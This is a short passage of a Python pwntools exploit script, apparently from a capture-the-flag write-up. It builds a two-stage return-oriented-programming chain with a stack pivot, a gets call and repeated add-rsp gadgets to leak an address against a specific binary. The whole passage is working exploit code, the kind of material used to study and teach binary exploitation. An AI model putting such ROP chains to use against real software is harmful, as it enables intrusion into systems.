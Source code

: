 ```python
leave_ret    = 0x4011cd

### Set rbp to 0x404058 ###

first_stage_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
        ]
    })

io.sendline(first_stage_payload)
log.info(f'first stage out: {io.recv()}')

second_stage_payload = flat({
    0: [
        pop_rbp_ret,
        landing_addr+0x118,
        leave_ret
        ],
    0x20:[
        print_addr+0x20,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8, #this one last
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8, # success with rop
        print_call,
        #0x4141414141414141,
        exe.sym.main,
        0x4242424242424242,
        ]
    })

io.sendline(second_stage_payload)

```